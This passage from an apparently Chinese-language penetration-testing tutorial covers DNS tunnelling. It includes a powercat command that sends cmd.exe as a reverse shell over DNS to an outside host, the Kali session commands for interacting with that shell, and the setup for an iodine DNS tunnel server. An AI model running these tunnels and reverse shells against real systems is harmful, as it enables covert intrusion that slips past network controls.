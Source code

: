 在靶机下，执行以下命令，建立 dns 隧道

```
powercat -c 172.16.214.47 -p 53 -dns powercat -e cmd.exe
```

此时，在 kali 上就能看到回连的会话了

```
sessions				#	查看所有会话
session -i 1 		#	选择指定的会话进行交互
```

不过实测，虽然能返回会话，但不能执行命令，暂不清楚原因是什么。

powercat 暂时就记录这些，其他的比如文件传输什么的就不记了，毕竟使用频率几乎为零，平时使用最多的可能还是拿它来反弹 shell，不过为什么不用 CS 或者 MSF 呢，不更香嘛。

# 0x09 iodine 使用

## 1、介绍

iodine 这个名字起的很有意思，iodine 翻译过来就是碘，碘的原子序数为 53，53 也就是 DNS 服务对应的端口号。 

iodine 和 dnscat2 一样，适合于其他请求方式被限制以至于只能发送 DNS 请求的环境中，iodine 同样也是分成了直接转发和中继两种模式。

iodine 与 dnscat2 不同的在于 Iodine 服务端和客户端都是用 C 语言开发，同时 iodine 的原理也有些不同，iodine 通过 TAP 在服务端和客户端分别建立一个局域网和虚拟网卡，再通过 DNS 隧道进行连接，然后使其处在同一个局域网中。

## 2、安装

首先需要有一个域名，并设置 NS 和 A 记录，A 记录指向自己的公网 VPS 地址，NS 记录指向 A 记录的子域名。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-07_17-20-20.png)

Kali 下自带 iodine ，Debian Linux 可以使用 apt 进行安装

```
sudo apt-get install iodine
```

Windows 可以直接到官网下载，下载地址：[https://code.kryo.se/iodine/](https://code.kryo.se/iodine/)，服务端名称是 iodined.exe，客户端是 iodine.exe

## 3、使用

这里服务端使用的是 Linux，服务端命令如下：

```
sudo iodined -f -c -P teamssix 192.168.77.1 dc.teamssix.com -DD
```

```
 -f		在前台运行
 -c		不检查传入请求的客户端 IP 地址
 -P		客户端与服务端之间的连接密码
 -D		调试级别，-D 表示第一级，-DD 表示第二级，依此类推
 
 192.168.77.1 是自己自定义的局域网虚拟 IP 地址。
```
